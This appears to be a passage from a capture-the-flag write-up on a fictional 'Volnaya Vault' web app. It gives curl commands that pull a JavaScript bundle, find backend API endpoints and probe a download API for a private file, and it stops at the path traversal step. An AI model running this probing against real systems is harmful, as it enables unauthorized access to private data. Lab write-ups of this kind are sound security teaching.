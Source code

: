 ## Exploitation Strategy

### Step 1: JavaScript Analysis

Download and analyze the React application's JavaScript bundle:

```bash
curl -s "http://volnaya-vault-static-website.s3-website.eu-north-1.amazonaws.com/assets/index-3xJTFlOo.js" -o index.js

# Search for API endpoints
grep -o "http://volnaya-vault-lb-[^\"]*" index.js
```

**Critical Discovery:** Backend API endpoints:
- `http://volnaya-vault-lb-69672775.eu-north-1.elb.amazonaws.com/api/files`
- `http://volnaya-vault-lb-69672775.eu-north-1.elb.amazonaws.com/api/download`

### Step 2: API Endpoint Testing

Test the discovered endpoints:

```bash
# List available files
curl -s "http://volnaya-vault-lb-69672775.eu-north-1.elb.amazonaws.com/api/files"
```

**Response shows only PUBLIC files:**
```json
[
  {"classification":"PUBLIC","id":"VOL-2025-1A93E507","name":"Canteen_Water_Safety_Bulletin_2024_Q1.txt"},
  {"classification":"PUBLIC","id":"VOL-2025-D5E31294","name":"PR_Volnaya_Cyber_Forces_Image_Pack_Approved.zip"},
  {"classification":"PUBLIC","id":"VOL-2025-318F44EA","name":"Vehicle_Log_Update_VZ-TRK-1138.txt"},
  {"classification":"PUBLIC","id":"VOL-2025-64AACBC1","name":"propaganda.png"}
]
```

### Step 3: Download API Analysis

Test the download API with a known private filename:

```bash
curl -s -X POST "http://volnaya-vault-lb-69672775.eu-north-1.elb.amazonaws.com/api/download" \
  -H "Content-Type: application/json" \
  -d '{"filename":"DIRECTORATE ALPHA & BETA FIELD OPERATIVES.docx"}'
```

**Observation:** The API generates a presigned URL with incorrect path:
- **Generated:** `/vault/public/DIRECTORATE ALPHA & BETA FIELD OPERATIVES.docx`
- **Expected:** `/vault/private/DIRECTORATE ALPHA & BETA FIELD OPERATIVES.docx`

### Step 4: Path Traversal Exploitation

